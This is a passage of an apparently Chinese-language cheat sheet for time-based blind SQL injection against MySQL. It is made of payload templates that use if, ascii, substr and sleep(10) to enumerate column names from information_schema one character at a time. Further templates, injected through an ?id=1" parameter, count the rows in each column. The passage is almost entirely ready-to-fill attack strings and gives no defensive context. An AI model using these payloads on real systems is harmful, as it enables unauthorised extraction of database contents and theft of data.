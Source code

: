       ```mysql
      第二个字段 : 
      	and if(ascii(substr((select column_name from information_schema.columns where table_name = '第一个表' limit 1,1),1,1)) = ascii的字符数,sleep(10),1)-- qwe
      	and if(ascii(substr((select column_name from information_schema.columns where table_name = '第一个表' limit 1,1),2,1)) = ascii的字符数,sleep(10),1)-- qwe
      ```

   2. 第二个表

      ```mysql
      第一个字段 : 
      	and if(ascii(substr((select column_name from information_schema.columns where table_name = '第二个表' limit 0,1),1,1)) = ascii的字符数,sleep(10),1)-- qwe
      	and if(ascii(substr((select column_name from information_schema.columns where table_name = '第二个表' limit 0,1),2,1)) = ascii的字符数,sleep(10),1)-- qwe
      ```

      ```mysql
      第二个字段 : 
      	and if(ascii(substr((select column_name from information_schema.columns where table_name = '第二个表' limit 1,1),1,1)) = ascii的字符数,sleep(10),1)-- qwe
      	and if(ascii(substr((select column_name from information_schema.columns where table_name = '第二个表' limit 1,1),2,1)) = ascii的字符数,sleep(10),1)-- qwe
      ```

      
## 数据

1. 数据个数

   1. 第一个表

      ```mysql
      第一个字段数据个数 : 
      	?id=1" and if((select count(第一个字段) from 第一个表) = 个数,sleep(10),1)-- qwe
      ```

      ```mysql
      第二个字段数据个数 : 
      	?id=1" and if((select count(第二个字段) from 第一个表) = 个数,sleep(10),1)-- qwe
      ```

   2. 第二个表

      ```mysql
      第一个字段数据个数 : 
      	?id=1" and if((select count(第一个字段) from 第二个表) = 个数,sleep(10),1)-- qwe
      ```

      ```mysql
      第二个字段数据个数 : 
      	?id=1" and if((select count(第二个字段) from 第二个表) = 个数,sleep(10),1)-- qwe
      ```

2. 数据长度

